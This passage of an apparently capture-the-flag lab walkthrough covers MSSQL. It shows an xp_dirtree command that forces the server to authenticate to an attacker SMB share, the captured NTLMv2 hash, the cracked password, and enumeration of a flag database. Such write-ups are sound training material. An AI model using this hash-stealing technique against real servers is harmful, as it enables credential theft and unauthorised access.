 #### Terminal 2 - Execute Hash Stealing Attack
```sql
-- Connect to SQL server first
sqlcmd -S 10.129.203.12 -U htbdbuser

-- Execute xp_dirtree to force SMB authentication (replace with YOUR IP)
1> EXEC master..xp_dirtree '\\10.10.14.138\share'
2> GO

(0 rows affected)
```

#### Captured Hash Output
```bash
# SMB Server captures NTLMv2 hash:
[*] Incoming connection (10.129.203.12,49676)
[*] AUTHENTICATE_MESSAGE (WIN-02\mssqlsvc,WIN-02)
[*] User WIN-02\mssqlsvc authenticated successfully
[*] mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:da87f7aa577b48e8361cf1b021e6bfca:010100000000000000555ef6718cd801e1b423320a45d0570000000001001000760055004a005100610058005200550003001000760055004a00510061005800520055000200100069004700430077004f0055006b0077000400100069004700430077004f0055006b0077000700080000555ef6718cd80106000400020000000800300030000000000000000000000000300000f4316f662256a822989f5d2574efb5b4cbf92c2ce43cb82538c6b2b358a130650a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000

# Crack hash to get password: princess1
```

### Scenario 3: Flag Enumeration with Escalated Privileges
**Task**: Enumerate "flagDB" database and extract flag

#### Connect with mssqlsvc Account
```bash
# Use cracked credentials: mssqlsvc:princess1
sqlcmd -S 10.129.203.12 -U .\\mssqlsvc
Password: princess1

# Expected output:
1>
```

#### Database and Table Enumeration
```sql
-- Switch to flagDB database
1> USE flagDB
2> GO
Changed database context to 'flagDB'.

-- Enumerate tables in flagDB
1> SELECT table_name FROM flagDB.INFORMATION_SCHEMA.tables
2> GO

table_name                                                                                                                      
--------------------------------------------------------------------------------------------------------------------------------
tb_flag                                                                                                                         

(1 row affected)
```
